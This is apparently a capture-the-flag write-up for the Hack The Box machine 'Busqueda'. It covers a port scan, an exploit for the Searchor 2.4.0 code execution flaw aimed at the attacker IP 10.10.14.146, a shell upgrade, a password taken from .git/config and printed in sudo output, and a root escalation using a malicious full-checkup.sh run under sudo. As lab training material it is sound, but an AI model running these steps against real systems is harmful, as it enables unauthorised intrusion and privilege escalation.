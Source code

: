 ```yaml
---
layout: single
title: Busqueda - Hack The Box
date: 2023-06-30
excerpt: "Busqueda is an easy engine from hackthebox. In carrying out the enumeration process from the target, we can identify the version of the application, namely searchor 2.4.0, where in that version there is an Arbitrary Code Execution vulnerability. to get root privileges, we need to be able to get the user from svc in the .git/config directory. the next step is to execute sudo using system-checkup.py with malicious file-checkup.sh"
header:
  teaser: /assets/img/busqueda/cover.png
  teaser_home_page: true
  icon: /assets/htb.png
categories:
  - hackthebox
  - infosec
tag:
    - Arbitrary Code Execution
    - weak permission
    - malicious script
    - searchor 2.4.0

toc: true
toc_sticky: true
---
```

![](/assets/img/busqueda/cover.png)

## Synopsis

Busqueda is an easy engine from hackthebox. In carrying out the enumeration process from the target, we can identify the version of the application, namely searchor 2.4.0, where in that version there is an Arbitrary Code Execution vulnerability. to get root privileges, we need to be able to get the user from svc in the .git/config directory. the next step is to execute sudo using system-checkup.py with malicious file-checkup.sh

## Portscan

```powershell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP

Landing page from target 

![](/assets/img/busqueda/1.png)

and you will notice the version of application it self.

![](/assets/img/busqueda/2.png)

The version is affected of **Arbitrary Code Execution** vulnerabillity, you can grab the exploit script in [here](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection). Execute command below and start the listener will lead you into system:

```
./exploit.sh http://searcher.htb/ 10.10.14.146
```

![](/assets/img/busqueda/3.png)

we logged in as `svc` user and we can upgrade shell with following command:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

you can find the password for svc user in directory .git/config 

![](/assets/img/busqueda/4.png)


## Privilege Escalation

Run `sudo -l` will determining how to reach root user in this box

```
bash-5.1$ sudo -l
sudo -l
[sudo] password for svc: jh1usoih2bkjaspwe92

Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

```bash
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```
so if you check the directory /opt/scripts, you will notice if there is bash script with name full-checkup.sh. 

![](/assets/img/busqueda/5.png)

we can make our malicious full-checkup.sh script too with contains `cat /root/root.txt`, but before doing that we can user dir /dev/shm to do that.

```bash
#!/bin/bash

ping -c 3 10.10.14.146

cat /root/root.txt
```

execute command below and catch with tcpdump on interface tun0

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

![](/assets/img/busqueda/6.png)


as you can see we able to ping our host and get the root.txt , i thought its gonna be do some export PATH but its not necessary.

# Refferencess
```terminal
https://security.snyk.io/package/pip/searchor/2.4.0
https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
```